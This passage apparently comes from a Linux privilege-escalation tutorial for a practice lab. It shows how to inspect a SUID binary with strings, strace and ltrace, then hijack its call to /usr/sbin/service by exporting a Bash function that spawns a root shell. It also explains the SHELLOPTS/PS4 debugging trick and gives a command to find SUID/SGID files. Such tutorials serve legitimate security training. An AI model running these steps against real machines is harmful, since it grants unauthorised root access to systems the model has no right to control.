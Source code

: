 The suid-env file should execute with root user permissions.

Run strings on the SUID file:

#### `strings /usr/local/bin/suid-env2`

![](../../../.gitbook/assets/soi8.png)

The file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`

![](../../../.gitbook/assets/soi9.png)

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`

This reveals that the system function is being used to execute the /usr/sbin/service program

Verify the version of Bash is lower than 4.2-048:

#### `bash --version`

Create a Bash function with the name “/usr/sbin/service” and export the function:

#### `function /usr/sbin/service { /bin/bash -p; }` `export -f /usr/sbin/service`

Execute the SUID file for a root shell:

#### `/usr/local/bin/suid-env2`

## <mark style="color:red;">Abusing Shell Features (#2)</mark>

Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace. By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set. When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown. If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited. If an SUID file is being executed, this command will execute with the privileges of the file owner. In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env2 file should execute with root user permissions.

Run strings on the SUID file

#### `strings /usr/local/bin/suid-env2`
